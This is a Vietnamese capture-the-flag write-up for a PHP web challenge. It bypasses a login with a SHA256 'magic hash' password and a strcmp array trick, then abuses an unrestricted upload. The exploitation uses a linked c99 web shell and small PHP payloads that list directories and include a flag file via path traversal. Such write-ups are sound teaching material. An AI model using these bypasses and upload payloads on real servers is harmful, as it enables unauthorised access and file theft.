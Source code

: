 ```yaml
---
title: FPTU SecAthon 2021 | Web Writeup | IAW302
date: 2021-10-09 23:30:00 +0700
---
```


# IAW302

> Bài này rất đúng với mô tả của người ra đề, một người anh (không hề) lừa: "G(old)". Một ví dụ điển hình cho một lỗi điển hình của PHP String :))

- Truy cập vào bài, ta có login form:

    ![login](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_1.png)

- Thử xem source code của bài xem sao? (Source code khá dài, nên mình sẽ cắt từ đoạn form đến hết hint)

    ```html
    <form action="verify.php" method="post">
        User Name:<br>
        <input type="text" name="username"><br><br>
        Password:<br>
        <input type="password" name="password"><br><br>
        <input type="submit" name="submit" value="Login">
    </form>
    <!--
    if(isset($_POST['submit'])){
            if ((int) $_POST['password'] === (int) "8xdeadbeef"){
                $usr = $_POST['username'];
                $pas = hash('sha256', htmlentities($_POST['password']));
                if($pas == "0" && strcmp("ahihi", $usr) == 0 && $usr != "ahihi"){
                    session_start();
                    $_SESSION['logged'] = TRUE;
                    header("Location: chall.php");
                    exit;
                    }
            }else{

                header("Location: index.php");
                exit;
            }
    }else{
            header("Location: index.php");
            exit;
    }
    ?>
    ```

- Vậy là chúng ta có gợi ý về code PHP của back-end, hãy thử phân tích nó một chút, để dễ dàng theo dõi, mình sẽ gán đoạn PHP vào Vim để nhìn theo line-number:

    ![PHP](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_2.png)

- Tại dòng thứ 3, ta có thể thấy toán tử so sánh `===` (cùng loại, cùng giá trị), `(int) "8xdeadbeef"` có giá trị là `8`, như vậy password cần mang giá trị `8` khi ép về `int`

- Nói qua một chút về việc ép `String` về `Integer` trong PHP, hãy để ý chuỗi `8xdeafbeef`, chuỗi này bắt đầu bằng số `8`, nên khi ép về `int` thì sẽ mang luôn giá trị là `8`, để dễ hình dung thì chúng ta thử trên PHP luôn:

    ![php -a](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_3.png)

- Như vậy ta biết password sẽ bắt đầu bằng `8` và kế tiếp là các kí tự không phải kí tự số như `8anhtunglua` chẳng hạn :>

- Ta biết password sẽ được hash `SHA256`, và không có salt (Dòng 5)

- Tại dòng 6 ta có 3 điều kiện với 3 phép so sánh: `==` và `!=` (so sánh giá trị, không so sánh kiểu) và `strcmp()` (so sánh 2 string, trả về 0 nếu giống nhau):

- Hãy để ý đến phép so sánh `$pas == "0"`, đây là một huyền thoại của PHP :> Ta biết rằng `$pas` được hash `SHA256` rồi mới đem vào so sánh, phép so sánh `==` giữa một chuỗi hash và `"0"` trong PHP sẽ gây ra lỗi liên quan đến Magic Hash, cụ thể thì những chuỗi hash bắt đầu bằng `"0e"`, khi so sánh `==` với `"0"` sẽ luôn trả về giá trị đúng xD, bạn có thể tìm hiểu về magic hash, không chỉ `SHA256` mà còn nhiều dạng khác [tại đây](https://github.com/spaze/hashes)

- Như vậy, password phải bắt đầu bằng `8` và có mã hash SHA256 bắt đầu bằng `"0e"`, theo link ở trên, mình tìm được mã này:

    ```text
    8W-vW:5ghashcat:0e99625202804787226908207582077273485674961623832383874594371630 (note: the plaintext has a colon in the middle)
    ```

- Như vậy password sẽ là `8W-vW:5ghashcat`

- Tiếp đến 2 điều kiện còn lại của dòng 6: `strcmp("ahihi", $usr) == 0 && $usr != "ahihi"` :D ???

- Mới đầu đọc mình cũng hơi bị lú tí, làm thế nào mà `strcmp` thì trả về 0 (giống nhau) mà đằng sau lại khác nhau cho được :D ???, nhưng, có một điều về `strcmp` trong PHP, hay nói đúng hơn là cái `==` chết tiệt của PHP:

  - Trong PHP, khi so sánh `NULL == 0` thì sẽ trả về true :D ??? Không đùa đâu, nó trả về true thật :> Đọc thêm tại [đây](https://www.php.net/manual/en/types.comparisons.php)

  - Có một cách để khiến `strcmp` trả về `NULL`, đó là so sánh `Array` và `String` :> Hãy đọc thêm tại [đây](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

- Như vậy điều ta cần là nhập username dưới dạng `Array`, but how to do that?

- Để ý đến source code form của username: `<input type="text" name="username">`, ta thấy khi submit, query string sẽ có dạng `?username=anything&password=anything` đúng không? Vậy muốn đổi từ `?username=` sang `?username[]=` thì đơn giản ta chỉ cần sửa lại code HTML của username form thành `<input type="text" name="username[]">`

- Bây giờ tiến hành nhập username (mình để `ahihi` cho theo ý thích của người ra đề :>) và password `8W-vW:5ghashcat` và đây là kết quả:

    ![login](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_4.png)

    ![success](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_5.png)

- Ta đã vào được trang `chall.php` đúng như điều kiện của back-end PHP ở trên, Ctrl U để xem source code nào:

```php
if(isset($_FILES['file'])){
    if($_FILES['file']['size'] > 1048576){
        $errors='File size must be excately 1 MB';
    }

    if(empty($errors)==true){
    $up = "uploads/".rand().".".explode(".",$_FILES['file']['name'])[1];
    move_uploaded_file($_FILES['file']['tmp_name'],$up);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $up .' target="_blank">File</a></p>';
    }else{
        echo $errors;
    }
}
```

- Đây là source code PHP cho phần upload file, có thể thấy ta có thể upload bất cứ file gì, miễn là đừng vượt quá `1048576 bytes` là được

- Mình sử dụng một file có tên là [c99shell.php](https://github.com/KaizenLouie/C99Shell-PHP7) để upload, truy cập vào file và ta có toàn bộ file được upload lên :v

    ![c99shell](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_6.png)

- Lul, có vẻ flag không có ở đây, và nếu để ý thì tất cả file đều chỉ có quyền `read` mà thôi :v như vậy mình không thể dùng command rồi :v mình thử truy cập vào thư mục cha của thư mục hiện tại, và mình thấy file này:

    ![c99shell_2](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_7.png)

- Thử dùng path traversal để mở file `fl@@@g_1337_ahiahi.txt` xem sao :v

    ![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_8.png)

- Vậy là đã có flag: `FUSec{Muốn giết một con rồng, máu phải chảy thành sông_Tai nạn quá, không sao, winable, winable guys}`

> Một bài khá dài hơi, flag này chả trách ông anh T giấu tên cứ nhắc đến "Kẻ giết rồng" :))

- Có một cách đơn giản, mà hay ho hơn để làm bài này

- Đầu tiên, chuẩn bị 1 file PHP như sau:

    ```php
    <?php
        phpinfo();
    ?>
    ```

- Tìm `disable_functions`, thu được danh sách các funcion bị chặn:

    ![phpinfo](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_9.png)

- Như vậy, rất nhiều function liên quan đến command và file handling bị chặn, nhưng có 2 hàm không bị chặn: `dir` và `include`

- Đầu tiên cần list file:

    ```php
    <?php
        $cur = dir(".");
        $par = dir("..");

        echo "Current:<br>";
        while (($file = $cur->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 

        echo "Parent:<br>";
        while (($file = $par->read()) !== false){
        echo "filename: " . $file . "<br>";
        } 
        $cur->close();
        $par->close();
    ?> 
    ```

- Upload lên và mở file, thu được danh sách file trong thư mục hiện tại và thư mục cha, để ý thấy trong thư mục cha có file `fl@@@g_1337_ahiahi.txt`, đến đây thì path traversal cũng được, tạo file PHP cũng được:

    ```php
    <?php
        echo "<p>";
        include '../fl@@@g_1337_ahiahi.txt';
        echo "</p>";
    ?>
    ```

- Dù là cách nào thì cuối cùng cũng thu được flag:

    ![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/IAW302_10.png)

    